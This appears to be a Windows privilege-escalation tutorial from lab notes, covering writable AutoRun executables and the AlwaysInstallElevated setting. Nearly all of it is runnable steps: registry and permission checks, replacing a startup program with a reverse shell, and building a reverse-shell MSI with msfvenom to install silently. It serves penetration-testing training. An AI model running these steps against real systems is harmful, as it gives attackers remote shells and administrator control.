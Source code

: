 ## AutoRuns
### AutoRuns
Windows can be configured to run commands at startup, with elevated privileges.
These “AutoRuns” are configured in the Registry.

If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```bash
1. Use winPEAS to check for writable AutoRun executables:
> .\winPEASany.exe quiet applicationsinfo
2. Alternatively, we could manually enumerate the AutoRun executables:
> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
and then use accesschk.exe to verify the permissions on each one:
> .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
3. The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:
> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
4. Copy our reverse shell executable to overwrite the AutoRun executable:
> copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"
5. Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.
```

## AlwaysInstallElevated
MSI files are package files used to install applications.These files run with the permissions of the user trying to install them.
Windows allows for these installers to be run with elevated (i.e. admin) privileges.

If this is the case, we can generate a malicious MSI file which contains a reverse shell.
The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine:
HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
and the current user:

HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

If either of these are missing or disabled, the exploit will not work.

```bash
1. Use winPEAS to see if both registry values are set:
> .\winPEASany.exe quiet windowscreds
2. Alternatively, verify the values manually:
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
3. Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi
4. Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:
> msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
